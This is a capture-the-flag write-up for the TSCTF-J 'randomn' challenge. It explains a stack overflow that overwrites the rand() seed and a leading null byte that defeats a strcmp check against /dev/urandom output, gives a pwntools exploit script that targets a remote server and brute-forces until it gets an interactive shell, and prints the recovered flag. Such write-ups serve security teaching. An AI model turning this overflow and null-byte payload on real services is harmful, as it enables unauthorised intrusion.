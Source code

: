 ## Analysis

Using IDA to open the file, we found that the task requires us to input the correct random numbers generated by `rand()` 10 times, and then input the correct random byte stream generated by `/dev/urandom`.

### Initial Information

#### rand()
The `rand()` function checks whether `srand(seed)` has been called before every call. If a value has been set for `seed`, then it will automatically call `srand(seed)` once to initialize its initial value. If `srand(seed)` has not been called before, the system will automatically assign an initial value to `seed`, that is, `srand(1)` will be called automatically.

#### /dev/urandom

`/dev/urandom` is a pseudo-random device provided in the Linux system, whose task is to provide an ever non-empty stream of random byte data.

Since `rand()` generates random numbers based on the random number seed `seed`, as long as the `seed` is the same, can't the same random numbers be generated?

### Code Analysis

#### First Random

We can see that the length of *buf* is *22*, but it can read in *0x30 bytes* of data.

Observing the stack, we can see that *buf* and *seed* are only *0x18* bytes apart. Therefore, we can consider stack overflow to overwrite the random seed.

#### Second Random

This is a bit more difficult. During my search, I found a method to skip `strncmp` by padding with `\x00` to make `strlen=0`, but this is clearly not suitable for our `strcmp`.

But the working principle of `strcmp` is as follows:

> strcmp: Compare two strings character by character from left to right (comparing them by ASCII value), until a different character is encountered or '\0' is encountered.

This means that if *s* starts with `\x00`, our `strcmp` will return 0 without caring about the rest of the data and `buff`.

This is the real random - making `/dev/urandom` generate byte data streams starting with `\x00`.

### Script Writing

```python
from pwn import *
from ctypes import *
context.log_level = 'debug'
def burp():
    sh = remote("173.82.120.231", 10000) 
    # sh = process("./randomn") # When testing locally, for some reason, it throws an EOFError, so I had to run the script by connecting to the server (after checking, it may be due to program protection on Ubuntu 20.04 LTS)
    libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6') # Import library file
    payload = '\x00' * 0x20 # Since our data is only related to buf and seed, it's better to fill it all with \x00
    sh.sendlineafter("ranqom...",payload)
    libc.srand(1) # Using 0 and 1 as seed will yield the same result
    for i in range(10):
    	a = libc.rand()%100
    	sh.sendlineafter("is the number?\n", str(a))
    
    # Random_2
    payload = '\x00' # Fill it with something random
    sh.sendafter("THIS!??!!", payload)
    print(sh.recvline()) # There will be an empty line so printed it, but it's not necessary
    respon = str(sh.recvline())
    print(respon)
    if 'LUuUncky' in respon:
    	sh.interactive()
    else:
    	burp()
burp()
```

> Here's a small detail - after padding the `seed` with `\x00`, the `rand()` function will automatically call `srand(1)` once, and in fact, the results of `srand(1)` and `srand(0)` are the same.
>
> I found an article on [stackoverflow](https://stackoverflow.com/questions/8049556/what-s-the-difference-between-srand1-and-srand0)
>
> > How glibc does it:
> >
> > >  [around line 181 of glibc/stdlib/random_r.c](http://sourceware.org/git/?p=glibc.git;a=blob;f=stdlib/random_r.c;h=51a2e8c812aee78783bd6d38c1b6269d41c8e47e;hb=HEAD#l181), inside function `__srandom_r`
> >
> > ```csharp
> >   /* We must make sure the seed is not 0.  Take arbitrarily 1 in this case.  */
> >   if (seed == 0)
> >     seed = 1;
> > ```
> > But that's just how glibc does it. It depends on the implementation of the C standard library.

Next is the lengthy brute-forcing process. I can only say that luck was really not on my side, as I brute-forced for over an hour, making me think at one point that there was an issue with the script I wrote.

After a long wait, I finally got the FLAG `o00O0o00D_LuCk_With_y0ur_Ctf_career!!!`, but only the latter half? How could this happen?

After carefully studying IDA, I found that the first half of the flag was actually provided during the first random operation (but because I thought there was too much debug information when running, I commented it out).

Concatenating the two parts, we have the complete FLAG:

`TSCTF-J{G0o00O0o00D_LuCk_With_y0ur_Ctf_career!!!}`

<!-- AI -->
